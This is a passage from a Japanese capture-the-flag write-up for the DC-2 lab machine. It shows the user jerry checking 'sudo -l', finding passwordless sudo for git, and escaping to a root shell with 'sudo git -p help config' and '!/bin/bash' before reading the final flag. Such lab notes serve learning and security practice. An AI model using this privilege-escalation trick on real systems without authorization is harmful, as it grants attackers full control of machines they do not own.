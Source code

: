 Go on - git outta here!!!! だそうだ

### 22 sudo コマンドの設定を調べる

[Potato のハッキング](./experiment01.md) で学んだ `sudo -l` (p274) をつかって
jerry に付与されてる管理者権限を確認し，それを使って特権昇格を狙う

```sh
jerry@DC-2:~$ sudo -l
> User jerry may run the following commands on DC-2:
    (root) NOPASSWD: /usr/bin/git
```

flag4.txt でほのめかしていた git がパスワードなしで使えるようだ，こんな設定は現実にはありえないが...

### 23 git コマンドを利用してシェルをうばう(Privilege escalation)

[git help](https://gtfobins.github.io/gtfobins/git)

```sh
jerry@DC-2:~$ sudo git -p  help config
> !/bin/bash
# rootになれた
root@DC-2:/home/jerry# id
> uid=0(root) gid=0(root) groups=0(root)
```

```sh
# root の Home ディレクトリに移動
root@DC-2:/home/jerry# cd && pwd
> /root

root@DC-2: ~# ls
> final-flag.txt

root@DC-2: ~# cat final-flag.txt
> Congratulatons!!!
>
> A special thanks to all those who sent me tweets
> and provided me with feedback - it's all greatly
> appreciated.

> If you enjoyed this CTF, send me a tweet via @DCAU7.
```